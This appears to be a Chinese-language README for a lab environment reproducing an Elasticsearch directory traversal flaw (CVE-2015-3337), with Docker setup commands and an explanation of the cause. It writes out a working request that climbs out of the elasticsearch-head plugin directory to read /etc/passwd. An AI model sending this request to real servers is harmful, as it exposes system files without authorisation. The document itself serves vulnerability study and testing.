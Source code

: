 # ElasticSearch 目录穿越漏洞（CVE-2015-3337）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.4

影响版本：1.4.5以下/1.5.2以下

## 原理

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 测试环境

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](1.png)

## head插件

head插件提供了elasticsearch的前端页面，访问 `http://your-ip:9200/_plugin/head/` 即可看到，不多说了。
